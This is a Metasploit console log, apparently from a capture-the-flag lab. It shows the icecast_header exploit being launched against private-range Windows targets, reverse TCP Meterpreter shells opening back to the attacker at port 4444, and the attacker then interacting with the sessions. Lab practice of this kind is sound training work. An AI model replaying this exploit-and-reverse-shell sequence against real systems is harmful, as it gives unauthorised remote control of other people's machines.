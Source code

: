     msf5 exploit(windows/http/icecast_header) > sessions
    
    Active sessions
    ===============
    
      Id  Name  Type                     Information             Connection
      --  ----  ----                     -----------             ----------
      1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.9.60.67:4444 -> 10.10.120.90:49204 (10.10.120.90)

    msf5 exploit(windows/http/icecast_header) > sessions -i 1
    [*] Starting interaction with 1...
    
    meterpreter > 
    meterpreter > 
    meterpreter > Interrupt: use the 'exit' command to quit
    meterpreter > exit
    [*] Shutting down Meterpreter...
    
    [*] 10.10.120.90 - Meterpreter session 1 closed.  Reason: User exit

    ---------Neue Session----------
    
    msf5 exploit(windows/http/icecast_header) > set RHOSTS 10.10.239.197
    RHOSTS => 10.10.239.197
    msf5 exploit(windows/http/icecast_header) > run -j
    [*] Exploit running as background job 3.
    [*] Exploit completed, but no session was created.
    msf5 exploit(windows/http/icecast_header) > 
    [*] Started reverse TCP handler on 10.9.60.67:4444 
    [*] Sending stage (176195 bytes) to 10.10.239.197
    [*] Meterpreter session 2 opened (10.9.60.67:4444 -> 10.10.239.197:49172) at 2020-11-06 14:52:46 -0500
    
    msf5 exploit(windows/http/icecast_header) > jobs
    
    Jobs
    ====
    
    No active jobs.
    
    msf5 exploit(windows/http/icecast_header) > sessions
    
    Active sessions
    ===============
    
      Id  Name  Type                     Information             Connection
      --  ----  ----                     -----------             ----------
      2         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.9.60.67:4444 -> 10.10.239.197:49172 (10.10.239.197)
      
    msf5 exploit(windows/http/icecast_header) > sessions -i 2
    [*] Starting interaction with 2...
    
    
    ---------In the Session-------
    
    meterpreter > ps
